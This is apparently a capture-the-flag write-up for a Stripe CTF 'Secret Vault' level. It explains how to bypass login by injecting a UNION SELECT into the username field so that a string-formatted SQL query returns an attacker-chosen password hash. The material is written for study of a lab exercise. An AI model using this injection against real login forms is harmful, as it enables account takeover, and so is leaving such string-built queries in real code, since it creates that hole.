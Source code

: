 ## Solution Summary

SQL injection.

Idea: inject SQL in the SELECT query at line 86 of `secretvault.py` to make results any values of our choosing. We can then authenticate as any user we want.

## Solution Details

1. Pick a password to use, which we'll call `$fake_password`. Take its SHA256 hash, which we'll call `$hashed_pass`.

2. Try to login with username set to: `gibberish' UNION SELECT 1 AS id, $hashed_pass AS password_hash, '' AS salt FROM users;--`. Send `$fake_password` as the password and voila, you're in!

We're exploiting the SQL query used to find users in `/login` on line 86. The query:

     query = """SELECT id, password_hash, salt FROM users WHERE username = '{0}' LIMIT 1""".format(username)

will become:

    SELECT id, password_hash, salt FROM users WHERE username = 'gibberish' UNION SELECT 1 AS id, $hashed_pass AS password_hash, '' AS salt FROM users;--' LIMIT 1

Since there is no user with username `gibberish` (or if there is, then try another username!), the first SELECT in the union query returns an empty result set. The second SELECT is hard-coded to return the values 1, `$hashed_pass`, and '', so those are the values the password will be checked against. By sending `$fake_password` as the password, we successfully authenticate as user with user id 1.

## Problem Statement (Copied from CTF website)

After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like Unbreakable Linux). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4); you can check it out at https://level03-2.stripe-ctf.com/user-fjrioqjned. As usual, you can fetch the code for the level (and some sample data) via git clone https://level03-2.stripe-ctf.com/user-fjrioqjned/level03-code, or you can read the code below.
